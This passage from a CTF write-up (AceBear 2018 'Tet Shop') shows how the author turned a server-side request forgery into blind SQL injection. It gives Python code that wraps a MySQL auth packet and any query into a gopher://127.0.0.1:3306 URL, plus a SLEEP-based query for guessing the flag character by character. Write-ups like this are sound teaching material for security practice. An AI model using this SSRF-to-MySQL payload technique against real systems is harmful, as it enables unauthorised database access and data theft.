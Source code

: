 This allowed me to copy paste the bytes from wireshark, run them as a string through this function, and get a curl gopher command. (Try it, it works!)
Unfortunately, gopher isn't great at reading the returned data, but you run any query you want including ones that contain SLEEP(). From here it's pretty standard time-based blind SQLi injection with the caveat of having to convert everything to be gopher friendly. This is easily done with python.

```
auth = """aa00000185a6ff0100000001210000000000000000000000000000000000000000000000666c34675f6d346e3467337200006d7973716c5f6e61746976655f70617373776f72640065035f6f73054c696e75780c5f636c69656e745f6e616d65086c69626d7973716c045f70696404363439390f5f636c69656e745f76657273696f6e06352e372e3231095f706c6174666f726d067838365f36340c70726f6772616d5f6e616d65056d7973716c
210000000373656c65637420404076657273696f6e5f636f6d6d656e74206c696d69742031""".replace("\n", "")


def encode(s):
    a = [s[i:i + 2] for i in range(0, len(s), 2)]
    return "gopher://127.0.0.1:3306/_%" + "%".join(a)


def get_payload(query):
    query = query.encode().hex()
    query_length = '{:x}'.format((int((len(query) / 2) + 1)))
    pay1 = query_length + "00000003" + query
    final = encode(auth + pay1 + "0100000001")
    return final




query = 'select * from flag.flag where (flag LIKE binary "A%" AND sleep(5));'
```

This snippet shows how to get the gopher:// version of any query. There was a lot of tweaking and some manual work of figuring out how to construct the packets, but those steps are detailed in the other write-ups.

Running the output of this script against my local web app proved that time-based blind SQLi was possible as I had a fake flag in my flag database called `ACEBEAR{A_flag_HaS_You}`.
With a query like above, it took 5 seconds to return. If I were to change the hardcoded `A` in the query to a `B`, it would return instantly (as it would not hit the SLEEP function).

So after putting _everything_ together, I ended up with an exploit script.
NOTE: The % signs need to be double encoded when going through Tet Shop, so `final = encode(auth + pay1 + "0100000001")` is changed to `final = encode(auth + pay1 + "0100000001").replace("%", "%%25")`

![Exploit](https://github.com/reznok/CTFWriteUps/blob/master/AceBear_2018/TetShopping/screenshots/exploit.png?raw=true)
